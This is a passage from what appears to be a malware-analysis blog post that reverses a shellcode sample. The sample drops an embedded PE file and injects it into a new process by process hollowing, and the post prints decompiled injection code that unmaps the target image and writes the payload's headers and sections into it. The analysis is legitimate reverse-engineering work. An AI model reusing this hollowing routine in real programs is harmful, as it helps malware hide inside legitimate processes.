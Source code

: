 ![](https://miro.medium.com/v2/resize:fit:875/1*kCnBXNZu04YNOuDSi5KoOg.png)

figure 27

so when I jumped to address 0x15A0 I found the payload which will be dropped by this shellcode, which refers to a PE File

![](https://miro.medium.com/v2/resize:fit:631/1*IPdE8AW8QtfaDD5kijrdQw.png)

Pe File - figure 28

inside **sub_110** there is an injection operation is done specially process hollowing, I will not explain how process hollowing is done cause I did this before in another article that explains process hollowing line by line, you can check it [**here.**](https://medium.com/@farghly.mahmod66/process-hollowing-as-anti-reversing-a27c85033277)

and here is the code used for this operation
``` C++
 v19 = 2;  
  buffer = IAT_Struct->buffer;                  // buffer = 0x15A0  
  ptr_optionalHeader = *(buffer + 0x3C) + IAT_Struct->buffer;// get elfanew  --> start of optionalheader  
  ptr_memory = (IAT_Struct->VirtualAlloc_api)(0, 10240, 4096, 4);  
  result = (IAT_Struct->GetModuleFileNameA_api)(0, ptr_memory, 10240);  
  if ( *ptr_optionalHeader == 'EP' )            // 'PE'  
  {  
    v15 = 0;  
    v16 = 0;  
    hProcess = 0;  
    v14 = 0;  
    memset(v3, 0, sizeof(v3));  
    v5 = 0;  
    v9 = 0;  
    v7 = 0;  
    v8 = 0;  
    v6 = 0;  
    v4 = 0;  
    (IAT_Struct->GetStartupInfoA_api)(v3);  
    commandLine_ = (IAT_Struct->GetCommandLineA_api)(0, 0, 0, 0x8000004, 0, 0, v3, &hProcess);  
    result = (IAT_Struct->CreateProcessA_api)(ptr_memory, commandLine_);  
    if ( result )                               // if successed the output is nonzero  
                                                //   
    {  
      (IAT_Struct->VirtualFree_api)(ptr_memory, 0, 0x8000);  
      ptr_memory_1 = (IAT_Struct->VirtualAlloc_api)(0, 4, 4096, 4);  
      *ptr_memory_1 = 65543;  
      result = (IAT_Struct->GetThreadContext_api)(v14, ptr_memory_1);  
      if ( result )  
      {  
        (IAT_Struct->ReadProcessMemory_api)(hProcess, ptr_memory_1[41] + 8, &base_address, 4, 0);  
        if ( base_address == *(ptr_optionalHeader + 0x34) )  
          (IAT_Struct->NtUnmapViewOfSection_api)(hProcess, base_address);  
        v11 = (IAT_Struct->VirtualAllocExw_api)(  
                hProcess,  
                *(ptr_optionalHeader + 52),  
                *(ptr_optionalHeader + 80),  
                12288,  
                64);  
        (IAT_Struct->NtWriteVirtualMemory_api)(hProcess, v11, IAT_Struct->buffer, *(ptr_optionalHeader + 84), 0);  
        for ( i = 0; i < *(ptr_optionalHeader + 6); ++i )  
        {  
          v17 = (*(buffer + 60) + IAT_Struct->buffer + 40 * i + 248);  
          (IAT_Struct->NtWriteVirtualMemory_api)(hProcess, v17[3] + v11, v17[5] + IAT_Struct->buffer, v17[4], 0);  
```